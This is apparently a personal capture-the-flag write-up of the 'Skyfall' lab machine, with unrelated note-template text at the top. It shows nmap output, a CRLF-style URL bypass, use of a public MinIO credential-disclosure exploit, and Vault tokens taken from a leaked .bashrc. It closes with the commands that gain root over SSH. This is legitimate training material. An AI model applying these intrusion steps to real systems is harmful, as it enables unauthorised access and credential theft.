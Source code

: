 sup:: [[Home]]
tags:: #map 

 🗃

![[Pasted image 20240205173101.png]]
This is the "Map of Content" for the LYT Kit. Here you can:

- Learn about the LYT Framework.
- Learn about how MOCs literally re-write the game.
- Create living notes in a process called *note-making*.
- Use MOCs to generate massive amounts of personal value.
- Build your Home note so you can effectively scale your PKM.
- Use the ACCESS folder structure to effectively hold all your notes.
- Learn about how to use "efforts" instead of projects.

Let's get started...

---
### Steps
1.  **Start your vpn**
	Go to the directory where your downloaded vpn and start the vpn as shown below
	
![[Pasted image 20240114130711.png]]

2. Run an nmap scan on the host:
![[Pasted image 20240205173906.png]]

┌──(kali㉿kali)-[~]
└─$  sudo nmap -sC -sV 10.10.11.254
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2024-02-05 17:22 EST
Nmap scan report for skyfall.htb (10.10.11.254)
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 65:70:f7:12:47:07:3a:88:8e:27:e9:cb:44:5d:10:fb (ECDSA)
|_  256 74:48:33:07:b7:88:9d:32:0e:3b:ec:16:aa:b4:c8:fe (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Skyfall - Introducing Sky Storage!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.22 seconds

┌──(kali㉿kali)-[~]
└─$ 

3. Added the ip with the corresponding name in the /etc/hosts file:

4. Visited skylab.htb in the browser:
![[Pasted image 20240205174449.png]]

5. viewed the source code to see if we can anything. So we happen to find this URL while reviewing the code:

![[Pasted image 20240205175505.png]]

6. We will also add the URL to our /etc/hosts file:

7. Navigated to the site:

![[Pasted image 20240205175755.png]]

![[Pasted image 20240205180016.png]]

9. So, we try to use the username and password to login for a demo as provided on the form:

![[Pasted image 20240205180203.png]]

10. After clicking on MimIO Metrics tab, I got this:

![[Pasted image 20240205182739.png]]

11. So, I went ahead to enter this %0a and got the following result page:
    http://demo.skyfall.htb/metrics%0a

![[Pasted image 20240205184040.png]]

Notice on the last line a URL for demo.skylab.htb

![[Pasted image 20240205185625.png]]

11. Added this to the /etc/hosts file:

![[Pasted image 20240205185448.png]]

12. I decided to visit this page for a potential Mimio CVE on github:

![[Pasted image 20240205190652.png]]

13. Clicking on CVE-3035-28432.py exploit to view the script:

![[Pasted image 20240205191747.png]]

14. Launched Burpsuite and copy the URL to the browse saved in the /etc/hosts file prd23-s3-backend.skyfall.htb/:

![[Pasted image 20240205192226.png]]

15. Now, go back to the resporsitory and get the target URL as highlighted earlier:

![[Pasted image 20240205194154.png]]

16. In Burpsuite I am able to manipulate the request in Repeater tab and Send it back to the server:

![[Pasted image 20240205221331.png]]

We can see the MINIO ROOT PASSWORD in the response field:

![[Pasted image 20240205221838.png]]

17. Download the Minio client:

![[Pasted image 20240205223040.png]]
![[Pasted image 20240205223804.png]]

![[Pasted image 20240205230212.png]]

18. Added the myminio alias for your MinIO server using the `mc` command. Now I can proceed with MinIO client operations on the MinIO server using this alias:

![[Pasted image 20240205230816.png]]

19. List the buckets:

![[Pasted image 20240205231930.png]]

20. Copy the backup file from Mimio server t:

![[Pasted image 20240205232447.png]]
![[Pasted image 20240205232712.png]]

21. List the contents of the bash configuration file:

![[Pasted image 20240205233418.png]]

![[Pasted image 20240205233516.png]]

22. Add the Vault api to the /etc/hosts file together with the other 10.10.11.254 URLs

23. Download the vault client:

kali@kali:~$  wget https://releases.hashicorp.com/vault/1.15.5/vault_1.15.5_linux_amd64.zip

kali@kali:~$  unzip vault_1.15.5_linux_amd64.zip 
Archive:  vault_1.15.5_linux_amd64.zip
  inflating: vault                   
kali@kali:~$

![[Pasted image 20240205234621.png]]

![[Pasted image 20240206000034.png]]

24. Now, let's run the export the vault script and run it:

![[Pasted image 20240206000939.png]]

25. Enter this token from the .bashrc config file we saw it from:

hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE

![[Pasted image 20240206003613.png]]

![[Pasted image 20240206004312.png]]

26. Run the command to help SSH into the system via Vault:

![[Pasted image 20240206011039.png]]

27. Listing the files in the user's home directory we could see the user flag and view it:

![[Pasted image 20240206011435.png]]

28. what commands can this user run as sudo without a password:

![[Pasted image 20240206014234.png]]

29. Remove and create back the debug.log file:

![[Pasted image 20240206020439.png]]

30. Now, viewing the contents of the file:

![[Pasted image 20240206020641.png]]

31. Exiting the process and starting again for the root:

![[Pasted image 20240206024119.png]]
![[Pasted image 20240206024146.png]]

32. Changing the role now to root:

![[Pasted image 20240207003210.png]]
![[Pasted image 20240207003305.png]]

Actual commands to get root:

kali@kali:~$  export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
kali@kali:~$  ./vault login
Token (will be hidden): 
WARNING! The VAULT_TOKEN environment variable is set! The value of this
variable will take precedence; if this is unwanted please unset VAULT_TOKEN or
update its value accordingly.

Success! You are now authenticated. The token information displayed below
is already stored in the token helper. You do NOT need to run "vault login"
again. Future Vault requests will automatically use this token.

Key                  Value
---                  -----
token                hvs.I0ewVsmaKU1SwVZAKR3T0mmG
token_accessor       bXBeXR3r92WGQ8XgEDx6pIFu
token_duration       ∞
token_renewable      false
token_policies       ["root"]
identity_policies    []
policies             ["root"]
kali@kali:~$ export VAULT_TOKEN="hvs.I0ewVsmaKU1SwVZAKR3T0mmG"
kali@kali:~$ export VAULT_NAMESPACE="root"
kali@kali:~$ ./vault ssh -role admin_otp_key_role -mode OTP -strict-host-key-checking=no root@10.10.11.254
Vault could not locate "sshpass". The OTP code for the session is displayed
below. Enter this code in the SSH password prompt. If you install sshpass,
Vault can automatically perform this step for you.
OTP for the session is: 184643cc-ed2b-7156-e536-8f7762350f66
Password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-92-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Jan 30 12:17:37 2024
root@skyfall:~# ls
minio  root.txt  sky_storage  vault
root@skyfall:~# cat root.txt
3b123dc3f82223d5b0586fbed83e93c9
root@skyfall:~#